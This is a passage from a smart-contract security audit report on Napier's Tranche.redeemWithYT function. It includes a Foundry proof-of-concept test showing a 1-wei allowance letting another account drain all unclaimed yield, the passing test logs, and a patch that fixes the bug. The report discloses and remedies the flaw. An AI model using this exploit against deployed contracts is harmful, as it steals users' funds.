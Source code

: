 ````Tranche.redeemWithYT()```` is not well implemented, all yield could be drained if users set any ````> 0```` allowance to others.
        _simulateScaleIncrease();

        // 3. give bob any negligible allowance, could be as low as only 1wei
        tranche.approve(bob, 1);
        yt.approve(bob, 1);

        // 4. all unclaimed and pending yield drained by bob
        assertEq(0, underlying.balanceOf(bob));
        vm.prank(bob);
        tranche.redeemWithYT(address(this), bob, 1);
        assertTrue(underlying.balanceOf(bob) > 494e6);
    }
}
```

And the logs:
```solidity
2024-01-napier\napier-v1> forge test --match-test testTrancheAllowanceIssue -vv
[⠔] Compiling...
[⠊] Compiling 42 files with 0.8.19
[⠔] Solc 0.8.19 finished in 82.11sCompiler run successful!
[⠒] Solc 0.8.19 finished in 82.11s

Running 1 test for test/unit/TrancheAllowanceIssue.t.sol:TrancheAllowanceIssue
[PASS] testTrancheAllowanceIssue() (gas: 497585)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.06ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Impact
Users lost all unclaimed and unaccrued yield 

## Code Snippet
https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol#L283
## Tool used

Manual Review

## Recommendation
```diff
diff --git a/napier-v1/src/Tranche.sol b/napier-v1/src/Tranche.sol
index 62d9562..65db5c6 100644
--- a/napier-v1/src/Tranche.sol
+++ b/napier-v1/src/Tranche.sol
@@ -275,12 +275,15 @@ contract Tranche is BaseToken, ReentrancyGuard, Pausable, ITranche {
         delete unclaimedYields[from];
         gscales = _gscales;

+        uint256 accruedProportional = accruedInTarget * pyAmount / _yt.balanceOf(from);
+        unclaimedYields[from] = accruedInTarget - accruedProportional;
+        
         // Burn PT and YT tokens from `from`
         _burnFrom(from, pyAmount);
         _yt.burnFrom(from, msg.sender, pyAmount);

         // Withdraw underlying tokens from the adapter and transfer them to the user
-        _target.safeTransfer(address(adapter), sharesRedeemed + accruedInTarget);
+        _target.safeTransfer(address(adapter), sharesRedeemed + accruedProportional);
         (uint256 amountWithdrawn, ) = adapter.prefundedRedeem(to);

         emit RedeemWithYT(from, to, amountWithdrawn);
```
````